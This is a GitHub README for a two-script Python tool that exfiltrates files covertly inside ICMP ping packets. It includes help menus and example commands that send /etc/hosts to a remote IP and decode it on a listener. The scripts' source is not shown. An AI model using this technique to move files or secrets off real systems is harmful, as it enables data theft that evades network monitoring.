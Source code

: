 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0

[*] Listening for any incoming connections...

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" script by providing the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

